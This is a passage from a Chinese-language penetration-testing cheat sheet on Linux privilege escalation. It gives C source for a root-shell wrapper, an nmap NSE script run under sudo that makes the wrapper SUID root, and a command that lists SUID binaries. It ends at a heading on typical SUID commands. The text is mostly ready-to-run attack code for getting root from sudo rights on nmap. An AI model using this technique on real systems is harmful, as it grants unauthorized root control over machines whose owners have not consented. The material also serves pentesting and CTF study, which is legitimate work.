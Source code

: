 ```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void){
	setuid(0); setgid(0); system("/bin/bash");
}
```

将文件传输到目标计算机上，并创建以下 nse 脚本。同样，使用

```
 sudo nmap --script rootme.nse 
```


 运行 nse 脚本。

```
author = "w0lfram1te"
categories = {"default", "safe"}

prerule = function()
	return "True"
end

action = function(prerule)
	os.execute("chown root.root /tmp/rootme")
	os.execute("chmod +sx /tmp/rootme")
	return "nmap priv escalation"
end
```

## SUID

将列出设置了 SUID 或 SGID 位的文件。

```
find / -type f -perm -04000 -ls 2>/dev/null 
```

典型的使用SUID的命令
